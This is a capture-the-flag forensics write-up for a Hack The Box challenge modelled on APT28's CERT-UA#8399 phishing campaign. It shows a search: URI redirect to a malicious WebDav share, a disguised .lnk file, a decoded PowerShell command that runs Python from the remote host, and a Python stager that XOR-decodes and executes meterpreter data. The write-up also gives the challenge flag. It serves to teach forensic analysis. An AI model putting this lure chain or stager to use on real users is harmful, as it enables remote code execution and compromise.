






 <font size='10'>A New Hire</font>

20<sup>th</sup> February 2025

Prepared By: c4n0pus

Challenge Author(s): c4n0pus

Difficulty: <font color='green'>Very Easy</font>

<br><br>

# Synopsis

- A Very Easy forensic challenge that focuses on APT28's campaing in Ukraine, "CERT-UA#8399"

## Description

- The Royal Archives of Eldoria have recovered a mysterious document—an old resume once belonging to Lord Malakar before his fall from grace. At first glance, it appears to be an ordinary record of his achievements as a noble knight, but hidden within the text are secrets that reveal his descent into darkness.

**Flag:** `HTB{4PT_28_4nd_m1cr0s0ft_s34rch=1n1t14l_4cc3s!!}`

## Skills Required

- N/A

## Skills Learned

- WebDav Malicious Usage
- Windows Search Interface
- Malicious lnks

# Enumeration

We are given an e-mail source-code (`.eml`) and we can see that it looks like a job application. We are directed to a webpage to view the resume:

```txt
You can review his resume here:
storage.microsoftcloudservices.com:[PORT]/index.php
```

After navigating to that webpage we are greeted by a loading prompt:


Afterwards, a blurred background appears, and a button that prompts us to click to reveal the complete resume:


Before clicking, let's view what code it's being executed in our browser when we click it:



When we click on the button, the `getResume()` function will be ran, and will change the current url to:

`search:displayname=Downloads&subquery=\\storage.microsoftcloudservices.com@PORT\3fe1690d955e8fd2a0b282501570e1f4\resumes\`

The `search:` prefix for the protocol will launch Microsoft's [Search Protocol](https://learn.microsoft.com/en-us/windows/win32/shell/search-protocol).

This will prompt the User to accept launching the targeted application, in our case "Search" and display (search for) everything, under the folder specified by the `subquery` key.



In essence we are opening what appears to be a normal folder, but in reality we are manipulating the user to browse to our malicious WebDav share!



Note that we are tricking the user with `Search Results`, rather than a normal remote folder.


Inside the share we find a shortcut named `Resume.pdf` where in reality, the proper name is `Resume.pdf.lnk`. And if we click on it, a PDF opens that displays what seems to be a Resume.



This is just to appear legitimate... so let's examine the shortcut under a Hex Editor!
We see that the shortuct executes a lengthy encoded powershell command:


We can copy it and decode it in an online tool like CyberChef:

```powershell
[System.Diagnostics.Process]::Start('msedge', 'http://storage.microsoftcloudservices.com:12345/3fe1690d955e8fd2a0b282501570e1f4/resumesS/resume_official.pdf')
\\storage.microsoftcloudservices.com@12345\3fe1690d955e8fd2a0b282501570e1f4\python312\python.exe \\storage.microsoftcloudservices.com@12345\3fe1690d955e8fd2a0b282501570e1f4\configs\client.py
```

After cleaning it up a bit, we can see that in-turn, it executes two more programs:

- Opens the resume using Edge
- Executes a Python script `client.py` using a Python version residing in the remote WebDav share!

So even if the victim does not have Python installed, this can still run because Python and all the dependencies are loaded from the remote!

# Solution

We can browse to the location `client.py` is hosted to download it:

```python
import base64
key = base64.decode("SFRCezRQVF8yOF80bmRfbTFjcjBzMGZ0X3MzNHJjaD0xbjF0MTRsXzRjYzNzISF9Cg==")
data = base64.b64decode("c97FeXRj6jeG[REDACTED]")
meterpreter_data = bytes([data[i] ^ key[i % len(key)] for i in range(len(data))])
exec(__import__('zlib').decompress(meterpreter_data)[0])
```

We find a key variable that XOR-Decodes some data that's later decompressed and then executed!

Decoding the key variable will give us the flag!
